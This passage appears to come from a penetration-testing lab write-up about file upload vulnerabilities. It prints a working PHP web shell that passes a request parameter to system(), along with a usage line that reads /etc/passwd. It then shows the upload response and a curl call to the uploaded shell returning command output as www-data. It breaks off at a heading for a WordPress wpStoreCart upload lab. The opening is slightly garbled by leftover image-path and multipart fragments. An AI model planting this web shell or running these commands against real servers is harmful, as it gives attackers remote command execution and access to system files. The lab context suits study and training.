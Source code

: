 ```http
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?> 📌

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

-----------------------------30586794552660421611961380276--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:25:21 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4073



<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a> 📌                   </div>

[...]
```

`curl 'https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/simple-backdoor.php7?cmd=id'`:
```html
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre> 🚩
```

### WordPress wpStoreCart File Upload

#### Lab Environment
